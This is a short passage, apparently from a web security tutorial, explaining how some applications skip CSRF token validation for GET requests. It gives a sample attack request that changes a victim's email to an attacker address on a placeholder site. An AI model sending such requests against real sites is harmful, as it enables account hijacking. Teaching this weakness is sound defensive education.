 
Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```
